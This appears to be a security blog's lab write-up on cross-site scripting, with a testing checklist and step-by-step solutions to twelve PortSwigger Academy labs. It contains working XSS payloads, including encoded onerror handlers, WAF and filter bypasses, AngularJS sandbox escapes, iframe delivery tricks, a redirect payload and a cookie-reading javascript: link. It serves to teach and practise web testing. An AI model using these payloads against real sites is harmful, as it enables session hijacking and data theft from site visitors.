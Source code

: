 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.



{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

### Reflected XXS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Dom-Based XXS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

#### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
~~~
src=x onerror="window.location.href='<$url>'"
~~~

#### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>


### Store
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

#### 1. DOM-based XSS in document.write sink using source location.search
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
  ~~~
  
4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
  ~~~
</details>
-

#### 2. DOM XSS in innerHTML sink using source location.search
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <span id="searchMessage">123456</span>
  ~~~
  
4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
  ~~~
  
</details>
-
  
#### 3. DOM XSS in jQuery anchor href attribute sink using location.search source
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
  ```javascript
  $(function() {  
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
    });
  ```
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=/
  ~~~
  
3. Insert the payload into the `returnPath` query parameter.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
  Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
  ~~~
  
</details>
-

#### 4. Stored XSS into anchor href attribute with double quotes HTML-encoded
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
~~~
Result: <a id="author" href="Website.com">Name</a>
~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
~~~
Website: javascript:alert('Zebra!')
Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
~~~
</details>
-

#### 5. Reflected XSS into attribute with angle brackets HTML-encoded
The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Enter random input (e.g., test123) in the user input (URL query)
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123
  ~~~
  
2. Utilize search function in inspection tab, and search for input (e.g., test123)
  ~~~
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
  ~~~
  
3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
  ~~~

  {: .box-note}
  **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.
</details>
-

#### 6. DOM XSS in jQuery selector sink using a hashchange event
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
  ```javascript
  $(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
    });
  ```
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
  ~~~
  URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
  ~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
  ~~~
  URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  ~~~

  {: .box-note}
  **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
</details>
-

#### 7. Reflected XSS into a JavaScript string with angle brackets HTML encoded
In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. I enter random input (e.g., test) in the user input (search bar)
  
2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
  ```javascript
    var searchTerms = 'test';
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
  ~~~
  Input: '-prompt("TestXSS")-' # breaks the single quote
         or \\'-prompt("TestXSS")// # If single quotes are escaped
  ~~~
  
4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
  ```javascript
  var searchTerms = ''-prompt("TestXSS")-'';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
</details>
-

#### 8. DOM XSS in document.write sink using source location.search inside a select element
This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).  
   And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).  
   It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
   
   ```javascript
   var stores = ["London", "Paris", "Milan"];
   var store = (new URLSearchParams(window.location.search)).get('storeId');
   document.write('<select name="storeId">');
   if(store) {
       document.write('<option selected>' + store + '</option>');
   }

   for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
   }

   document.write('</select>');
   ```

2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (test) to see the application's response. As expected, I am able to add a new selected `<option>`.
~~~
URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
Result:
<select name="storeId">
  <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
~~~
  
3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags or event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work. <br>Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
~~~
Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
Payload-2: storeId=test</option><script>prompt('work?')</script><option>
~~~

</details>
-

#### 9. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

{: .box-note}
**Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
  ~~~
  Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
  Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
  ~~~
  
</details>
-

#### 10. Reflected DOM XSS
In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. First, I find the script used in the web application under the Network tab on the Inspection page.
   - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
   - Then it parses the JSON response (`this.responseText`) with `eval()`.
   - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

   ```javascript
   var xhr = new XMLHttpRequest();
   xhr.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
      }
   };
   xhr.open("GET", path + window.location.search);
   xhr.send();
   ```
   
2. I send a test request and intercept the response using Burp Proxy.

   ```json
   {"results":[],"searchTerm":"test"}
   ```

3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."
   Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.

   ~~~
   1-st_Request: ?search=test"-prompt()}//
   Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
   -
   2-nd_Request: ?search=test\"-prompt()}//
   Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
   ~~~

   {: .box-note}
   **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
   And the `//` comments out whatever is after it.

</details>
-

#### 11. Stored DOM XSS
In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

   ```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
   ```

   {: .box-note}
   **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:

   ~~~
   Payload: <><img src="x" onerror="prompt('I am escaped!')">
   Rendered:
   <p>
     &lt;&gt;
     <img src="x" onerror="prompt('I am escaped!')">
   </p>
   ~~~

3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS."

</details>

**Suggestion**: Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description)), deploy a strict [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

-

#### 12. Reflected XSS into HTML context with most tags and attributes blocked
In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.

   ~~~
   Payload: <img src="0" onerror="prompt()">
   Respond: "Tag is not allowed"
   ~~~

2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.

   ~~~
   Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
   ~~~

3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.

   ~~~
   Payload: <body onload="prompt()">
   Respond: "Attributes is not allowed"
   ~~~

4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 

   ~~~
   Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
   ~~~

5. To make the exploitation more realistic, after going through the unfiltered event attributes:
   I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
   The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
   `[this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp)` to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.

   ~~~
   <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
   ~~~

6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

</details>

**Suggestion**: Remediate by [treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy) (encode/escape for the HTML context or render search terms as text nodes, never raw HTML), apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required), enforce a strong [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts, and [harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.

-
